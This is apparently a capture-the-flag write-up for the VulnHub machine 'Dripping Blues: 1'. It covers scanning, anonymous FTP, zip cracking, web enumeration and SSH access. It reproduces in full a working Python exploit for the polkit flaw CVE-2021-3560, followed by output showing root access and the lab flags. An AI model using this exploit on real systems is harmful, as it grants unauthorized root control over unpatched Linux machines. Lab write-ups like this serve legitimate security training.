



# Dripping Blues: 1
https://www.vulnhub.com/entry/dripping-blues-1,744/

## Discovery

### Tool used: netdiscover
<br>

```
Currently scanning: 192.168.247.0/16   |   Screen View: Unique Hosts          
                                                                               
 5 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 300               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.16.250.96    00:0d:b9:42:52:81      1      60  PC Engines GmbH             
 ```

## Port scan

### Tool used: nmap
<br>

```
nmap -T4 -sV -p- blues

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 12:05 CDT
Nmap scan report for blues (172.16.250.96)
Host is up (0.00049s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

First, we take a look at FTP, where we find a zip file ("respectmydrip.zip"):<br><br>

```
ftp blues

Connected to blues.
220 (vsFTPd 3.0.3)
Name (blues:): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (172,16,250,96,107,241).
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip
226 Directory send OK.
ftp> get respectmydrip.zip
227 Entering Passive Mode (172,16,250,96,169,68).
150 Opening BINARY mode data connection for respectmydrip.zip (471 bytes).
226 Transfer complete.
471 bytes received in 0.00997 seconds (46.1 kbytes/s)
ftp> 
```

After cracking the zip using *zip2john* and *john*, we see a message telling us to focus on "drip":<br><br>

```
zip2john respectmydrip.zip > drip.hash

ver 2.0 respectmydrip.zip/respectmydrip.txt PKZIP Encr: cmplen=32, decmplen=20, crc=5C92F12B
ver 2.0 respectmydrip.zip/secret.zip is not encrypted, or stored with non-handled compression type

sudo john -wordlist=/usr/share/wordlists/rockyou.txt drip.hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
072528035        (respectmydrip.zip/respectmydrip.txt)
1g 0:00:00:01 DONE (2022-09-20 12:46) 0.8196g/s 11408Kp/s 11408Kc/s 11408KC/s 074161197..072284233
Use the "--show" option to display all of the cracked passwords reliably
Session completed

cat respectmydrip.txt 

just focus on "drip"
```

The default website does not give us much information, nor does the source code:<br><br>



So the next logical step is to see what else is hiding.<br><br>

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://blues --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blues
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,htm,txt
[+] Timeout:                 10s
===============================================================
2022/09/20 12:00:00 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 138]
/robots.txt           (Status: 200) [Size: 78] 
/server-status        (Status: 403) [Size: 270]
                                               
===============================================================
2022/09/20 12:05:21 Finished
===============================================================
```

The "robots.txt" file gives us a little more information. "dripisreal.txt" sends us on a rabbit chase, and we are unable to view "/etc/dripispowerful.html".<br><br>

**dripisreal.txt**
<br><br>

```
hello dear hacker wannabe,

go for this lyrics:

https://www.azlyrics.com/lyrics/youngthug/constantlyhating.html

count the n words and put them side by side then md5sum it

ie, hellohellohellohello >> md5sum hellohellohellohello

it's the password of ssh
```

Looking back on our previous discovery in the zip file, we try some PHP code injection. Now we are able to get to "/etc/dripispowerful.html". The font is hard to read over the image, so we look at the source code, which reveals a password:<br><br>




<br><br>

Now that we have some usernames to try - travisscott and thugger - we can try to login via SSH. User "thugger" works with the password from the source code, and we are able to obtain the **user.txt** flag:<br><br>

```
5C50FC503A2ABE93B4C5EE3425496521
```

## Privilege escalation
<br>

*Linpeas* shows us that the machine is vulnerable to a few exploits, such as CVE-2021-3560, which escalates privileges using *polkit*:<br><br>

```py
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
	counter = counter +1
	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
	try:
    		#print('1 - Running in process', process.pid)
		Random = random.uniform(0.006,0.009)
		process.wait(timeout=Random)
		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

	user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
	if user.find("uid") != -1:
		print("[+] User Created with the name of ahmed")
		print("[+] Timed out at: "+str(Random))
		check =False
		break
	if counter > 2000:
		print("[-] Couldn't add the user, try again it may work")
		sys.exit(0)


for i in range(200):
	#print(i)
	uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

	#In case you need to put a password un-comment the code below and put your password after string:yourpassword'
	password = "string:"
	#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
	#password = f"string:{res.rstrip()}"

	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
	try:
    		#print('1 - Running in process', process.pid)
    		Random = random.uniform(0.006,0.009)
    		process.wait(timeout=Random)
    		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```

Using this, we are able to switch to user "ahmed", then run *sudo su* to switch to root and capture the **root.txt** flag:<br><br>

```
python3 CVE-2021-3560.py 

**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
id: ‘ahmed’: no such user
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Timed out at: 0.008040464646519817
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface “org.freedesktop.Accounts.User” on object at path /org/freedesktop/Accounts/User1000
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Timed out at: 0.00808858230962285
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

root@drippingblues:/home/thugger# su ahmed

bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

ahmed@drippingblues:/home/thugger$ sudo su

bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

root@drippingblues:/home/thugger# id
uid=0(root) gid=0(root) groups=0(root)

root@drippingblues:/home/thugger# cd /root
root@drippingblues:~# ls
root.txt  snap

root@drippingblues:~# cat root.txt 
78CE377EF7F10FF0EDCA63DD60EE63B8
```